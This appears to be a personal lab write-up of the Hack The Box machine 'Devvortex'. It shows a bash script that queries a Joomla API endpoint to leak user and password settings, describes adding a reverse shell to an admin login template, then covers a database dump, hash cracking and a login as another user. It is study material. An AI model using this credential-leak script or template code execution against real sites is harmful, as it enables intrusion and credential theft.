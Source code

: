 ![[Untitled 87 2.png|Untitled 87 2.png]]

```Bash
#!/bin/bash

# URL to fetch users /api/index.php/v1/users?public=true
# URL to fetch config /api/index.php/v1/config/application?public=true

\#Global Variables
declare -r main_url='http://dev.devvortex.htb'
declare -r config_path='/api/index.php/v1/config/application?public=true'
declare -r users_path='/api/index.php/v1/users?public=true'


\#Main
echo -e "\n [*] Obteniendo datos de usuarios en $main_url$users_path\n"
curl -s -X GET "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq '.data' | grep -E 'user|
password' | tr -d ',' | tr -d '\"'
```

Once inside the CMS we are logged in as admin.

So if I navigate to the templates, specifically **system>templates>admin templates>login.php**

![[Untitled 88 2.png|Untitled 88 2.png]]

Added the reverse shell one liner.

![[Untitled 89 2.png|Untitled 89 2.png]]

And voila

As seen early, there is a MySQL DB so lets connect with the user lewis

![[Untitled 90 2.png|Untitled 90 2.png]]

Using the DB Joomla, I found the table sd4fg_users, where I also found

![[Untitled 91 2.png|Untitled 91 2.png]]

![[Untitled 92 2.png|Untitled 92 2.png]]

Using crackstation WONT WORK

Neither hashcat worked

I had to use john the ripper and i SAW A WRITEUP

![[Untitled 93 2.png|Untitled 93 2.png]]

Once we have this password, we can log in as logan

![[Untitled 94 2.png|Untitled 94 2.png]]
